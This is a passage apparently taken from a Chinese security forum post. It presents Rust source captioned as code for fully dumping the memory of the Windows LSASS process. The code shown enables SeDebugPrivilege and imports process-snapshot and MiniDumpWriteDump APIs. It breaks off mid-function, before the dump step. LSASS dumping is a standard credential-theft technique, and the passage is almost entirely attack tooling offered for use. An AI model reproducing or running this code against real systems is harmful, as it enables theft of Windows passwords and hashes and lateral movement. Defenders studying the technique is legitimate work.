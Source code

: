 ![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

完整dump lsass进程内存的代码

```rust
use std::{mem::{ size_of}, ffi::{CStr, OsString, c_void, OsStr}, os::windows::prelude::{OsStringExt, AsRawHandle, RawHandle, OsStrExt}, fs::File, path::{Path, self}};
use std::ptr;
use clap::{App,Arg};
use log::{error};
use windows_sys::{Win32::{Foundation::{
    CloseHandle, GetLastError, INVALID_HANDLE_VALUE, HANDLE, LUID,
}, Security::{TOKEN_PRIVILEGES, LUID_AND_ATTRIBUTES, SE_PRIVILEGE_ENABLED, TOKEN_ADJUST_PRIVILEGES, LookupPrivilegeValueA, AdjustTokenPrivileges}, System::{Threading::OpenProcessToken, Diagnostics::ToolHelp::TH32CS_SNAPTHREAD}, Storage::FileSystem::CreateFileA}, core::PCSTR};
use windows_sys::Win32::Storage::FileSystem::{
    CreateFileW,CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL,
};
use windows_sys::Win32::System::Diagnostics::Debug::{
    MiniDumpWithFullMemory,MiniDumpWriteDump
};
use windows_sys::Win32::System::Diagnostics::ToolHelp::{
    CreateToolhelp32Snapshot, Process32First, Process32Next, PROCESSENTRY32, TH32CS_SNAPPROCESS,
};

use windows_sys::Win32::System::SystemServices::GENERIC_ALL;
use windows_sys::Win32::System::Threading::{OpenProcess, PROCESS_ALL_ACCESS};

fn getPrivilege(handle : HANDLE){
    unsafe{
        let mut h_token: HANDLE =  HANDLE::default();
        let mut h_token_ptr: *mut HANDLE = &mut h_token;
        let mut tkp: TOKEN_PRIVILEGES = TOKEN_PRIVILEGES {
            PrivilegeCount: 1,
            Privileges: [LUID_AND_ATTRIBUTES {
                Luid: LUID {
                    LowPart: 0,
                    HighPart: 0,
                },
                Attributes: SE_PRIVILEGE_ENABLED,
            }],
        };
        // 打开当前进程的访问令牌
        let token = OpenProcessToken(handle, TOKEN_ADJUST_PRIVILEGES, h_token_ptr);
        if   token != 0 {
            let systemname  = ptr::null_mut();
            if  LookupPrivilegeValueA(
                systemname,
                b"SeDebugPrivilege\0".as_ptr(),
                &mut tkp.Privileges[0].Luid) != 0 {
                tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
                // println!("{:?}",tkp.Privileges[0].Attributes);
                // 提升当前进程的 SeDebugPrivilege 权限
                if  AdjustTokenPrivileges(
                    h_token,
                    0, 
                    &tkp  as *const TOKEN_PRIVILEGES, 
                    0, 
                    ptr::null_mut(), 
                    ptr::null_mut()) != 0 {
                    println!("Token privileges adjusted successfully");
                } else {
                    let last_error = GetLastError() ;
                    println!("AdjustTokenPrivileges failed with error: STATUS({:?})", last_error);
```